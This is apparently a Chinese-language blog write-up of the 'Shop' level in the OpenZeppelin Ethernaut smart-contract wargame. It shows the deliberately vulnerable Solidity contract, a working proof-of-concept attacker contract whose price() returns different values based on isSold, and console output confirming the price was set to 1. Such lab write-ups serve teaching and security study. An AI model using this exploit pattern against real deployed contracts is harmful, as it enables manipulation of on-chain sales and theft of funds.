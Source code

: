 ```yaml
---
title: 'ethernaut.openzeppelin合约安全闯关-16'
date: 2022-12-19 13:42:15
tags:
- '区块链技术'
- '智能合约安全'
categories:
- '智能合约安全'



---
```


<!-- more -->

#### 第二十一关Shop 思路与POC

#### 目标: 改变pirce变量数值使其低于100并能使isSold变量为true

##### 先看代码:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;
//很明显问题在于你怎么实现这个price函数
interface Buyer {
  function price() external view returns (uint);
}

contract Shop {
  uint public price = 100;
  bool public isSold;

  function buy() public {
    Buyer _buyer = Buyer(msg.sender);
 /*
根据第11关我们知道view/pure标识符就是限制函数不能够在不同的形参输入下改变结果(不能改变函数的状态),但是此处是并没有输入的。
 那么如何绕过这个判断就成了一个脑筋急转弯的问题。
 我们需要找到一个flag能够使我们自己实现的price函数返回不同的结果. 显然这里的isSold就是最好的flag
 */
    if (_buyer.price() >= price && !isSold) {
    //卖出一个商品(根据用户输入改变存储数据)第一条代码是验证用户输入然后就应该立刻先完成存储数据的变更
      isSold = true;
      price = _buyer.price();
    }
  }
}
```

##### poc思路:point_right:：我们仅需要根据商品售没售出这个布尔值更改price函数返回的结果即可

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import "./Vulnerability/Shop.sol";

contract hackShop {
    Shop shop = Shop(0x686da930FE2Ccde0A069AFEA8aE676eF6B4aAd91);

    function hackbuy() public {
        shop.buy();
    }
   //根据isSold变量改变函数返回
    function price() external view returns (uint) {
       return shop.isSold() ? 1 : 101;
    }
}

```

```js
//查看price变量,成功修改
(await contract.price()).toString()
'1'
```

